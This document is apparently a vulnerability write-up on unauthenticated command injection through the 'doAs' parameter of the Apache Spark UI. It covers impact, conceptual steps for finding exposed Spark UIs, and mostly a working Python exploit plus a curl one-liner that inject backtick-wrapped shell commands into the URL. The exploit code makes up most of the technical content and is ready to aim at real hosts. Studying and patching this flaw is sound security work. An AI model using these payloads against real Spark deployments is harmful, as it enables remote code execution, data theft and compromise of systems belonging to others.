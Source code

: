 **Real-World Impact:** Successful exploitation of this vulnerability allows an unauthenticated, remote attacker to execute arbitrary commands on the underlying operating system with the privileges of the Spark process. This can lead to complete system compromise, data exfiltration, deployment of malware, or disruption of Spark services. Given Spark's widespread use in big data processing, the impact of this RCE can be severe, affecting critical business operations and sensitive data.

**Technical Details and Exploitation:**

The vulnerability lies in the `doAs` parameter within the Spark UI. When ACLs are enabled, Spark constructs a shell command to check user group membership. If the `doAs` parameter is not properly sanitized, an attacker can inject malicious commands.

**Exploitation Steps (Conceptual):**

1.  **Identify a vulnerable Spark UI:** Look for publicly accessible Spark UIs with ACLs enabled.
2.  **Craft a malicious `doAs` parameter:** Inject shell commands into the `doAs` parameter in the URL.

**Example Exploit (Python using `requests` library):**

```python
import requests

TARGET_URL = "http://<spark_ui_host>:8080/"
# Example: Execute 'id' command and redirect output to a web-accessible location
# In a real scenario, you'd want to make the output accessible to your attacker machine
# For demonstration, we'll assume a simple command execution that might leave traces
COMMAND = "id > /tmp/output.txt"

# The payload leverages command injection via the 'doAs' parameter
# The '`' (backtick) characters are used for command substitution in shell
PAYLOAD = f"/?doAs=`{COMMAND}`"

FULL_URL = TARGET_URL + PAYLOAD

try:
    print(f"Attempting to exploit: {FULL_URL}")
    response = requests.get(FULL_URL, timeout=5)
    print(f"Response Status Code: {response.status_code}")
    # In a real exploit, you'd check for command execution success
    # For example, by trying to retrieve the /tmp/output.txt file
    print("Exploit sent. Check the target system for command execution.")
except requests.exceptions.RequestException as e:
    print(f"Error during request: {e}")

# To verify (conceptual, requires web server on target or other exfiltration):
# requests.get("http://<spark_ui_host>:8080/static/tmp/output.txt")
```

**Command Line Example (using `curl`):**

```bash
# Replace <spark_ui_host> with the actual host and 8080 with the Spark UI port
# This command executes 'whoami' and appends it to /tmp/whoami.txt on the target
curl "http://<spark_ui_host>:8080/?doAs=\`whoami%20%3E%3E%20/tmp/whoami.txt\`"

# To verify (requires access to the target system or another exfiltration method):
# ssh user@<spark_ui_host> "cat /tmp/whoami.txt"
```
